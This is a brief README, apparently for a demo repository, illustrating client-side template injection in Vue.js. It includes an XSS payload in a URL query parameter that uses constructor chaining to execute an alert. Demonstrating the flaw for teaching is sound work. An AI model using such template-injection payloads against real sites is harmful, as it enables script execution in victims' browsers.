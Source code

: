 # Client-Side Template Injection

A example of client-side template injection with Vue.js

## Site

- https://github.com/azu/vue-client-side-template-injection-example?name=xxx

## Payload

XSS Payload

- https://github.com/azu/vue-client-side-template-injection-example?name={{this.constructor.constructor('alert("foo")')()}}